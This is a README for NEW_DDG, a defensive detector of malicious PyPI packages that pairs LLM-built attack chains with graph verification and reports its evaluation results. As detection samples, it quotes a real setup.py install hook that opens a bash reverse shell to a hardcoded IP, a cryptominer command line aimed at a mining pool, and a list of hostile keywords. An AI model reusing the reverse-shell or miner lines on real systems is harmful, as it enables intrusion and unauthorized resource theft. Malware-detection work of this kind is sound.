

<div align="center">

# 🛡️ NEW_DDG

**LLM Builds the Chains. The Graph Keeps It Honest.**
**Evidence-Gated Detection of Malicious PyPI Packages**

[](https://www.python.org/downloads/)
[](LICENSE)
[](tests/)
[](#project-structure)
[](https://open.bigmodel.cn/)

*SSO pre-filter · Three-layer CPG · LLM-constructed attack chains · Program-verified evidence · Two-stage heterogeneous models*

[English](README.md) | [简体中文](README_zh.md)

</div>

---

## The Problem This Solves

Static malware detectors for package registries fail in two complementary ways:

**Rule-based tools** (regex/heuristic scanners) produce plausible but unsupported
verdicts. A regex sees `exec(` and calls it malware — until it runs on `cffi`,
`packaging`, or any project whose build legitimately generates code. Recall looks
great on a malware corpus; precision collapses on the real registry.

**LLM-based tools** fix the semantics but break the evidence: ask a model "is this
package malicious?" and it answers confidently — and hallucinates file names,
call chains, and behaviors that do not exist in the code. Nothing it says can be
checked.

NEW_DDG takes a third path:

> **The LLM builds the attack chains. The program verifies every hop.**
> The model reads a serialized dependency graph and proposes malicious data-flow
> paths. But a path only *counts* if every node exists and every hop is a real
> edge in the graph. Hallucinated chains are rejected deterministically, before
> they can influence a verdict.

And one governing constraint:

> **Every `MALICIOUS` verdict must be backed by a structural artifact a human can
> inspect — a graph-verified chain, a missing PyPI identity, or a verified install
> hook. Speculation is labelled `SUSPICIOUS` and never escalates on its own.**

---

## Architecture



---

## The Core Innovation: LLM-Constructed, Program-Verified Chains

Prior work splits into two camps. Rule/ML detectors match vocabulary —
an attacker renames a function and the match dies. LLM judges read code —
semantically strong but unverifiable, so their claims can't be audited.

NEW_DDG makes the LLM and the graph **cooperate under constraint**:

| Step | What happens | Why it matters |
|---|---|---|
| Serialization | The graph becomes a compact text view: nodes with types/lines, data edges, control edges (execution context), function boundaries, cross-scope flows, isolated payload nodes, IOC literals | The model sees structure, not just code |
| Chain proposal | The model outputs paths as ordered node IDs, with entry points and sensitive operations identified first | The model does the semantic work — finding the flow |
| Verification | Every ID checked against the graph; every hop checked against real edges; partial paths accepted (prefix ≥ 2 hops and ≥ 50%); single-node claims require a hostile literal in code | The model cannot invent structure |
| Adjudication | The strong model sees only *verified* paths + flagged source code | The judge reasons over facts, not fictions |

### Second pillar: the graph is co-designed for the model

Classic CPGs are built for symbolic analysis — data dependencies only, because
a theorem-prover never needs to know what executed *after* what. An LLM building
chains needs a different graph. Ours is reconstructed around that consumer,
while staying fully program-verifiable:

| Graph change | Driven by | Measured effect |
|---|---|---|
| **Statement-sequence edges** — same-scope adjacent statements get `next_stmt` edges | A data-dependency-only DDG leaves `install.run(self)` and `os.system(...)` as disconnected islands; the model cannot connect what the code obviously does (reverse-shell `shellapp`) | recall **75% → 58% inverted: +17%** when added |
| **Hash-shuffled short IDs** | Sequential N1→N2→… numbering induced the model to "walk" IDs instead of edges (a 219-hop fabricated path on a benign package) | hallucinated sequential chains eliminated |
| **Control edges kept for the model, excluded for taint** | `if not exists('x'): Popen(...)` — the branch context is exactly what makes the payload suspicious; taint analysis must ignore it, chain-building must see it | correct install-hook chains |
| **Function map + cross-scope flows + module-scope markers** | `setup.py` top-level code runs *at install time* — timing is evidence | install-hook chains named explicitly |
| **ISOLATED PAYLOAD NODES section + hostile-literal gate** | Hardcoded payloads have no upstream flow; models either miss them or fabricate chains. Listed explicitly; single-node evidence accepted only against deterministic hostile-literal patterns | false accusations of 1-line benign packages rejected; true miners/reverse shells detected |
| **IOC literals table** (pools, shell IPs, encoded blobs) | attacker infrastructure scattered across truncated code | judge names infrastructure in reasoning |
| **AST-repr repair** | Python 3.8 lacks `ast.unparse` → node "code" degenerated into unreadable `Call(func=Attribute(...))` | model sees real source |
| **SSO capability pre-filter** | 1093-file monorepo → graph budget | 8–23% of files selected, minutes→seconds |

The pattern: **the graph is the shared interface between symbolic verification
and neural reasoning.** Every construction decision is validated by its effect
on the model's chain-building quality — sequence edges alone recovered +17%
recall — and every decision keeps the graph program-checkable, so the
anti-hallucination contract holds regardless of model capability.

**What this buys us, measured:**

- With all symbolic hints removed (no danger labels, no biased ordering), verdicts
  **do not change** → the model reads code, it does not echo the regex layer.
- Hallucinated chains (nonexistent nodes/edges) are **mechanically rejected** —
  on the benign corpus, every attempted hallucinated accusation was blocked.
- On hard cases where the old regex-driven pipeline scored **22%**, the
  LLM-constructed-chain pipeline reaches **85–92%**.

These two pillars — the model proposing chains, the graph serving as both the
model's *eyes* and the program's *proof* — are what separates this design from
"LLM judges code" (unverifiable) and "rules match code" (unsemantic).

### A real walk-through (`shellapp-0.1.0`, reverse shell in install hook)

```python
class CustomInstallCommand(install):
    def run(self):
        install.run(self)
        os.system("bash -i >& /dev/tcp/114.116.119.253/7777 <&1")
setup(..., cmdclass={'install': CustomInstallCommand})
```

What the model outputs after reading the digest (verified path, abridged):

```
behavior: remote_payload_execution
N5  [import]  L3  from setuptools.command.install import install
N10 [expr]    L11 os.system("bash -i >& /dev/tcp/114.116.119.253/7777 <&1")
    ...execution guarded by the install commandclass, runs at pip install
```

No taint source exists — the payload is a hardcoded literal — so classic
source→sink taint finds nothing here. The model + graph instead connect
**import → execution → install-hook context**, and the judge names the
attack: *"reverse shell connection to a remote IP during package installation."*

---

## Two-Stage Heterogeneous Models

Chain extraction and maliciousness judgment are different cognitive tasks
with different input sizes — so they get different models:

| Stage | Model | Input | Task | Cost profile |
|---|---|---|---|---|
| ① Extract | GLM-4-Flash (small) | full graph digest (large) | walk edges, propose candidate paths | cheap per token, large input |
| ② Judge | GLM-4-Plus (strong) | verified paths + flagged source (small) | semantic verdict with domain knowledge | expensive, but tiny input |

The cost structure is a ladder: **benign packages usually produce no verified
paths and never reach the strong model.** Measured effects:

- The strong model overturned the small model's conservative calls **20 times
  in a 300-package run** (small model finds the path but hesitates; strong
  model confirms).
- On known idioms the strong model is *precisely* discriminating:

| Sample | Verdict | Judge reasoning (abridged) |
|---|---|---|
| `exec(open("_version.py").read())` | BENIGN | "legitimate pattern for version detection" (setuptools-scm) |
| `Popen("bash -i >& /dev/tcp/<ip>/7777")` | MALICIOUS | "reverse shell to a remote IP" |
| `Popen([..., "-o", "pool.supportxmr.com", ...])` | MALICIOUS | "cryptocurrency miner without user consent" |
| `b64decode → os.system` | MALICIOUS | "classic remote payload execution" |

---

## Graph Construction: Decisions Forged by Real Failures

Every decision below was forced by a specific false negative or false positive
on a real package, and pinned by a regression test.

**1. Statement-sequence edges (+17% recall).** A DDG built only from data
dependencies leaves `install.run(self)` and `os.system(...)` as disconnected
islands — the model cannot connect what the code obviously does. Same-scope
adjacent statements get `next_stmt` edges (control kind; taint analysis
excludes them, so data-flow semantics are unchanged).

**2. Anchor selection by risk-feature hits, not by severity/length.** On a
4,085-node package with 1,120 regex-flagged nodes, sorting anchors by
"severity then code length" let long false-positive docstrings occupy the
entire budget while a real XMRig miner node fell outside it. Anchors are now
ranked by how many high-risk features (`subprocess`, `/dev/tcp`, `supportxmr`,
`encodedcommand`, …) the node actually contains.

**3. AST-repr repair.** On Python 3.8 there is no `ast.unparse`, so node
"code" degenerates into `Call(func=Attribute(value=Name(id=...)))` — unreadable
to the model and unmatchable by any keyword layer. The digest detects this and
recovers the true source line from disk.

**4. No danger labels in the digest (ablation-tested).** `<<DANGER:critical>>`
tags come from the regex layer — showing them turns "LLM reads the graph" into
"LLM agrees with the regex." Ablation result: with labels removed **and** node
selection de-biased (uniform sampling instead of danger-first), verdicts are
unchanged. The model genuinely reads code.

**5. Isolated payload nodes + hostile-literal gate.** Hardcoded payloads
(reverse shells, miners, encoded commands) have no upstream data flow, so the
model either misses them or fabricates a chain. The digest now lists them
explicitly (`## ISOLATED PAYLOAD NODES`), and single-node evidence is accepted
**only if** the node's code deterministically contains a hostile literal —
this same gate rejects the model's hallucinated single-node accusations
(e.g. `__version__ = "0.5.0"` flagged as MALICIOUS).

**6. IOC literals table.** Miner pools, shell IPs, encoded blobs are collected
into a `## SUSPICIOUS LITERALS` section so the model can name attacker
infrastructure in its reasoning instead of rediscovering it in truncated code.

**7. Verdict normalization + lenient JSON.** Weak models emit `Uncertain`,
`Clean`, `Likely malicious`; long outputs get truncated mid-string. A mapping
table plus bracket-balancing parser recovered 5/11 UNKNOWN verdicts.

---

## Evidence Grading: Not All Evidence Can Convict

The error that shaped this system most: on `cffi`, `ag2`, and `acryl-executor`
(all real, benign), `exec(open("_version.py").read())` — the standard
setuptools-scm idiom — produced a `file_read → code_execution` chain, and a
"chain exists" rule convicted the package.

The fix is structural, not a threshold tweak:

| Evidence tier | Examples | Power |
|---|---|---|
| **Factual** | PyPI 404 (name does not exist), verified install hook | Can convict alone (bypasses the model entirely) |
| **Structural** | graph-verified chain from a *strong* source (network/deserialization/encoded) → sink, or any flow → exfiltration | Can convict with model confirmation |
| **Semantic** | LLM judgment over verified paths + code | Can convict with structural support; otherwise elevates to SUSPICIOUS |
| **Heuristic** | regex hits, weak chains (`env → exec`), name similarity | **Never convicts.** Can only flag SUSPICIOUS |

"Chain exists" is not the test — *chain shape* is. And a final integrity gate
re-checks every `MALICIOUS` before output: no structural support → demoted,
regardless of which channel produced it.

---

## What It Detects

| Attack pattern | Mechanism |
|---|---|
| Reverse shells (`/dev/tcp`, hardcoded IP) | graph chain + hostile literal, install-hook context |
| Crypto miners (XMRig/stratum pools) | IOC table + model chain + intent mismatch |
| Encoded PowerShell delivery | hostile-literal single-node evidence |
| Remote payload (`b64decode → exec`) | LLM chain: decode → execute |
| Cross-file payload splitting | cross-scope flows + interprocedural edges |
| Wrapper-hidden execution (`_run(x)` → `os.system`) | function summary propagation |
| `getattr`/alias/globals dispatch | AST call-target resolution |
| Install hooks (`cmdclass` overrides) | install-scope detection + graph context |
| Install-time exfiltration | env/credential → network flow |
| Typosquatting / registry takedown | full 500K-name index + PyPI verification |
| Code-clone name squatting | SHA-256 file-set overlap vs genuine sdist |
| Intent mismatch (claimed purpose vs behavior) | package self-description in judge context |

---

## Evaluation

All numbers below are the **pure graph + LLM pipeline** unless noted — no
registry verdicts, no API-name danger labels feeding the judge.

| Corpus | Size | Detection | False positives |
|---|---|---|---|
| Malicious (Backstabber's Knife Collection lineage) | 500 | **92.4%** (462/500, latest run) | — |
| Malicious, full registry channel | 5000 | **94.9%** (99.6% via PyPI 404 on this corpus) | — |
| Benign, real PyPI packages (incl. adversarial: `cffi`, `ag2` w/ 1136 fn, `acryl-*` forks) | 58 | — | **0 hard false positives** |
| Benign, fresh PyPI packages, alphabet-stratified random sample (latest run) | 500 | — | 7 hard (1.4%); 4 verified as network-client libraries (fixed by gate refinement), 2 likely genuine malware in the corpus, 1 version-anomaly pending |

Latest full run (deterministic context downgrade + SSO wiring + large-package
fast path + tightened escalation gate):

| Metric | Value |
|---|---|
| Malicious recall (500) | **92.4%**, 0 ANALYSIS_FAILED |
| Benign hard FP (500) | 1.4% — **zero** caused by block scanning (27 triggers, 10 verified chains, 0 wrong escalations) |
| Benign SUSPICIOUS rate | 16.3% → **6.2%** (deterministic context downgrade) |

Ablations that isolate the contributions (100+100, same seed/corpus):

| Config | Malicious recall | Benign hard FP |
|---|---|---|
| Baseline | 83% | 1.0% |
| + cross-scope evidence (boundary edges + global chain distribution) | 84% | 1.0% |
| + block scanning (whole-graph read on ambiguity) | **89%** | 3.1% → 1.4% after the gate refinements below |

Gate refinements forced by the FP attribution (all deterministic, no prompt
changes):

| Refinement | Effect |
|---|---|
| Escalation requires a hostile literal on the verified chain | `google_re2` (a regex library) no longer escalates; 0 wrong escalations in the 500-run |
| Strong source must reach an execution/exfil sink | `network→file_write` (downloader shape) no longer convicts; fixed 4 network-client library FPs |
| Line-exec version idiom (setup.py `for line in f: if '__version__': exec(line)`) | fixed `oauth2-client` FP |
| Test/fixture dirs and version-file idioms downgraded deterministically | benign SUSPICIOUS 16.3% → 6.2% |

**The complementarity argument, with numbers:** the graph+LLM channel reaches
~92% while the registry channel alone would catch ~78% (name fabrication);
code analysis is the *only* channel that can catch a real-name package with
injected code (XMRig-mining `requess`), and the registry channel is the only
one that can catch a name-squat whose code is a clean copy. Neither subsumes
the other.

### Testing

17 test files, 300+ assertions, all green. The graph-LLM interface suites pin
the anti-hallucination contract (hallucinated nodes/edges rejected, partial
paths preserved, single-node claims require hostile literals) and the evidence
gates (weak chains cannot convict, idiom knowledge does not release true
malware, downloader-shaped flows stay SUSPICIOUS) — these are exactly the
behaviors that regressed under time pressure during development, which is why
they are tests now.


---

## Current Ceiling & Roadmap

Measured recall by graph size (500-package run, current code):

| Graph size | Packages | Detection |
|---|---|---|
| ≤ 150 nodes | 214 | **99.1%** |
| 151–1500 nodes | 19 | 63% |
| > 1500 nodes | 19 | 21% |
| **Overall (majority vote)** | 254 | **89.4%** |

Small packages are essentially saturated. The ceiling is now **information
loss and missing graph semantics on medium/large packages** — not the model,
and not the chain-building method. Two workstreams form the next phase:

**Phase A — block analysis for large graphs** (code exists in
`src/package_graph_analysis.py`, integration pending): split graphs by
file/function into ≤500-node blocks, analyze each block independently,
merge verdicts. Expected to lift mid/large-package recall toward the
small-package ceiling.

**Phase B — missing edge semantics.** The model can only build chains the
graph supports. Four edge classes that real attacks use are incomplete:

| Missing edges | Real attack shape | Status |
|---|---|---|
| Global / module-level shared state | module A writes `CONFIG`, module B reads then `exec`s | not modeled — chains break |
| Unresolved dynamic call targets | `dispatcher[name](payload)` | partial (known patterns only) |
| Deep cross-function argument passing | `f(g(h(payload)))` | partial (`arg_mappings` coverage) |
| Exception paths | `except: exec(e)` | not modeled |

Each recovered edge class historically lifted recall by a measurable step
(statement-sequence edges alone: +17%); these four are the next steps on
the same path.

---

## Known Limitations

1. **Pure name-squatting with clean copied code is out of scope for the graph
   channel** — by design. `requestst` (a full copy of `requests`) contains no
   malicious *code*; the graph channel flags it SUSPICIOUS and the registry
   channel convicts. We consider convicting clean code from the code channel to
   be the false-positive failure mode this system exists to prevent.
2. **Large monorepos** (> ~1000 Python files) can exhaust analysis budgets and
   are marked `ANALYSIS_FAILED` (never silently BENIGN). Digests are
   size-capped; on very large graphs the model can under-report.
3. **Weak-model verdict jitter.** Single calls on the same input can flip
   MALICIOUS/SUSPICIOUS. Mitigated by multi-sample majority voting; single-call
   mode is measurably less stable.
4. **Taint is syntactic, not semantic.** A payload routed through three
   wrappers that each call benign-looking utilities can evade summary expansion.
5. **PyPI-centric threat model.** The install/import-time scope rules and
   credential paths are PyPI-specific; porting to npm/gems needs new idiom
   knowledge but no architectural change.
6. **LLM dependence.** The chain stage inherits the language coverage and
   refusal behavior of the backing model; failures degrade to SUSPICIOUS or
   UNKNOWN, never silent BENIGN.

---

## Quick Start

```bash
pip install zhipuai networkx py2cfg
git clone https://github.com/chen-map/Pypi-Malicious-Code-detect-Static.git
cd Pypi-Malicious-Code-detect-Static
```

### Full pipeline (two-stage, graph + LLM + registry)

```bash
python batch_solution_b_v2.py ./packages \
    --api-key "$GLM_API_KEY" \
    --count 100 \
    --llm-model glm-4-flashx \
    --verify-pypi \
    --parallel-workers 5
```

### Registry ablation (pure graph + LLM, offline-verifiable)

```bash
python batch_solution_b_v2.py ./packages \
    --api-key "$GLM_API_KEY" --verify-pypi --no-pypi-gate --count 100
```

### No LLM at all (deterministic baseline)

```bash
python batch_solution_b_v2.py ./packages --api-key dummy --count 50
```

### CLI reference

```
positional:        tarfile_dir             .tar.gz files or extracted directories
--api-key KEY      GLM API key             required unless --api-key dummy
--llm-model M      stage-1 (extraction)    default: glm-4-flashx
--verify-pypi                              enable registry verification
--no-pypi-gate                             ablation: registry recorded but never convicts
--count N                                  max packages
--extract-base D                           extraction directory
--parallel-workers N                       LLM call parallelism
--seed N                                   sampling seed (default 42)
--no-llm-cache                             disable verdict cache
--sandbox                                  behavioural probe (⚠️ executes code; VM only)
```

### Tests

```bash
python tests/run_all.py     # 14 files; every gate and repair is pinned
```

---

## Output Schema

```jsonc
{
  "package_name": "…",
  "final_category": "MALICIOUS | SUSPICIOUS | BENIGN | OBFUSCATED | ANALYSIS_FAILED",
  "final_risk_score": 0.0,
  "final_confidence": 0.0,
  "voting_summary": "why — always populated",
  "detection_method": "enhanced_detection | sandbox_probe | voting",
  "subgraph_verdicts": [
    {
      "subgraph_name": "func_…",
      "final_verdict": "MALICIOUS",
      "taint_chain_count": 2,
      "taint_categories": [{"source_category": "…", "sink_category": "…"}],
      "escalated": false
    }
  ],
  "attack_chains": {"chain_count": 4, "completeness": 0.75},
  "enhanced_detection": {"threat_level": "…", "threats_found": 1},
  "analysis_degraded": false
}
```

`ANALYSIS_FAILED` is deliberately distinct from `BENIGN`: infrastructure
failure must never masquerade as a clean verdict.

---

## Project Structure

```
NEW_DDG/
├── batch_solution_b_v2.py            # Orchestration: channels, gates, final integrity check
├── src/
│   ├── sso_extractor.py              # SSO pre-filter: capability extraction, alias resolution
│   ├── graph_digest.py               # Graph→text serialization + verify_paths (anti-hallucination)
│   ├── llm_graph_analyst.py          # Stage-1 chain extraction (small model) + verification
│   ├── two_stage_judge.py            # Stage-2 adjudication (strong model) + context judge
│   ├── package_graph_analysis.py     # Package-level block analysis (large graphs)
│   ├── ddg_builder_v7.py             # DDG: typed edges, sequence edges, summaries, call targets
│   ├── taint_engine.py               # Reverse-BFS taint + evidence grading (escalation_gate)
│   ├── call_resolver.py              # AST call-target resolution (getattr/alias/globals)
│   ├── call_graph_analyzer.py        # Call graph + attack-chain reconstruction
│   ├── cfg_adapter.py                # py2cfg integration + constant-folded reachability
│   ├── enhanced_detector.py          # Registry identity, install hooks, metadata authority
│   ├── pypi_verifier.py              # Existence / version / release-age verification
│   ├── pypi_index.py                 # Full 500K-name index with length bucketing
│   ├── duplicate_detector.py         # SHA-256 file-set overlap vs genuine sdist
│   ├── llm_sanitizer.py              # Comment/docstring stripping, injection marking
│   ├── sandbox_probe.py              # audit-hook behavioural probe (opt-in)
│   └── common/
│       ├── graph_partitioner.py      # Function-level partitioning
│       └── pattern_matcher.py        # Dangerous-node detection (ordering only)
├── SOLUTION_B_VOTING/src/            # Per-function classifier, rule scorer, prioritizer
├── scripts/                          # Offline re-judgment (stage 1 + stage 2)
├── tests/                            # 14 suites / 200+ assertions
└── docs/
```

---

## References

- **[MalSkills](https://arxiv.org/abs/2603.27204)** (HUST, ASE 2026) — SSO extraction → dependency graph → behavior reasoning architecture; our pre-filter and graph stages follow this shape, re-targeted to PyPI's threat model, with a different adjudication paradigm (LLM-constructed verified chains vs symbolic rules)
- **[Backstabber's Knife Collection](https://github.com/cybertier/Backstabbers-Knife-Collection)** — malicious corpus lineage
- **[Guarddog](https://github.com/DataDog/guarddog)**, **[Bandit4Mal](https://github.com/ohmtech-research/bandit4mal)** — single-channel baselines
- **[py2cfg](https://github.com/jimenezj6/py2cfg)** — CFG construction
- **[GLM (ZhipuAI)](https://open.bigmodel.cn/)** — GLM-4-Flash (chain extraction) and GLM-4-Plus (adjudication); also pair-programmed the entire system

## License

MIT — see [LICENSE](LICENSE).

<div align="center">

**⚠️** Static analysis plus optional behavioural probing. Verdicts are decision
support with evidence attached — every `MALICIOUS` names the chain, the
endpoints, and the code to check.

</div>
